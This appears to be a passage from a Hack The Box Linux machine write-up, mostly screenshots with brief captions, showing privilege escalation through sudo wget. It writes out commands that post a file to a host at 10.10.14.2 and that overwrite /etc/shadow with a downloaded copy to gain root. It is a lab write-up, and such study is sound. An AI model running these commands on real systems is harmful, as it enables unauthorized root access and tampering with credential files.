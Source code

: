 ![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/54.jpg)

```php
<?php
phpinfo();
?>
```

- Upload the file / checking for vulnerability

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/55.jpg)

```php
sudo wget --post-file=exploit.php 10.10.14.2:8001/upload.php?filename=exploit.php
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/56.jpg)

- There is a exploit.php file

- This is going to have read permision to execute this
```sh
wget 10.10.14.2:8001/upload/exploit.php
```
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/57.jpg)

- we get a 500 server error

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/58.jpg)

- we want to save in that aspect

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/59.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/60.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/61.jpg)

- now it can read and write the file

> **read and write access**
> Permissions of 644 mean that **the owner of the file has read and write access**, while the group members and other users on the system only have read access.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/62.jpg)

```sh
sudo wget 10.10.14.2:8001/shadow -O /etc/shadow
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/63.jpg)

> su - => switch user
- now we have access to the root.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/64.jpg)
